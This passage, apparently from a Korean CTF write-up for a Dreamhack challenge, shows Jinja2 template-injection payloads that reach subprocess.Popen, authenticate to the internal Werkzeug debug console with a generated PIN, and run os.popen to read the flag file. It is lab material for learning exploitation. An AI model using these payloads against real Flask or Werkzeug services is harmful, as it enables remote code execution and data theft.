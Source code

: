 ```
```

이제 이 값들을 가지고 PIN 번호를 생성하였다.

PIN : 507-842-243

이제 이 PIN 번호가 포함된 요청을 서버 측으로 전송하여 PIN 인증을 진행하였다.

```
# 요청 URL
http://host1.dreamhack.games:12487/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[398]('curl%20-G%20-i%20localhost:8000/console%20--data-urlencode%20__debugger__=yes%20--data-urlencode%20s=EhQek8v6ekhIjJ6gdZaH%20--data-urlencode%20frm=0%20--data-urlencode%20cmd=pinauth%20--data-urlencode%20pin=507-842-243',shell=True,stdout=-1).communicate()%20%7D%7D
```

요청을 보낸 결과 PIN 인증에 성공하였으며 발급된 쿠키 값을 확인할 수 있었다.

![image](./images/24_수정.png)

이제 PIN 인증에 성공하여 쿠키 값을 획득하였으며 획득한 쿠키 값과 실행시킬 파이썬 코드를 포함한 요청을 디버그 터미널 페이지로 보낸 결과 flag를 획득할 수 있었다.

#### 최종 공격 payload

```
http://host1.dreamhack.games:12487/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[398](%22curl%20-G%20-b%20'__wzd5b4127f2fcda3606095a=1722402374|496a1454c977'%20-i%20localhost:8000/console%20--data-urlencode%20__debugger__=yes%20--data-urlencode%20s=EhQek8v6ekhIjJ6gdZaH%20--data-urlencode%20frm=0%20--data-urlencode%20'''cmd=__import__(%5C%22os%5C%22).popen(%5C%22cat%20%2Fflag%5C%22).read();'''%22,shell=True,stdout=-1).communicate()%20%7D%7D
```

![image](./images/25_수정.png)
